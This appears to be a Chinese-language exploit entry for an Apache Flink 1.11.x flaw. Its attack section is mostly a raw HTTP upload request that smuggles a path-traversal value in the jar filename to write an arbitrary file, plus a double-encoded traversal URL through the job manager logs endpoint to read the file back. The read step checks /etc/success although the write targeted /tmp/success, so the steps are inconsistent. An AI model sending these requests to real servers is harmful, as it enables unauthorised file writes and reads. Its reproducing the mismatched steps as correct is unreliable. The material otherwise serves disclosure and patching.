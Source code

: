 ### 简介 ###
Apache Flink是一个开源流处理框架，具有强大的流处理和批处理功能

### 影响版本 ###

1.11.0

1.11.1

1.11.2



### 漏洞利用 ###
![](图片/af947f7215c0f6b269a8c2fdda19cd11.png)

写入EXP：

    POST /jars/upload HTTP/1.1
    Host: 127.0.0.1:8081
    Accept-Encoding: gzip, deflate
    Accept: */*
    Accept-Language: en
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
    Connection: close
    Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryoZ8meKnrrso89R6Y
    Content-Length: 185
    
    ------WebKitFormBoundaryoZ8meKnrrso89R6Y
    Content-Disposition: form-data; name="jarfile"; filename="../../../../../../tmp/success"
    
    zzzzzzz
    ------WebKitFormBoundaryoZ8meKnrrso89R6Y--

![](图片/ed75effc07f8399b4acccb9bd186aa77.png)

验证写入:

    http://127.0.0.1/jobmanager/logs/..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252fetc%252fsuccess
    
成功写入：

![](图片/204e71263e0fe62f249d0fbcc4af98d3.png)


### 修复建议 ###

所有用户升级最新版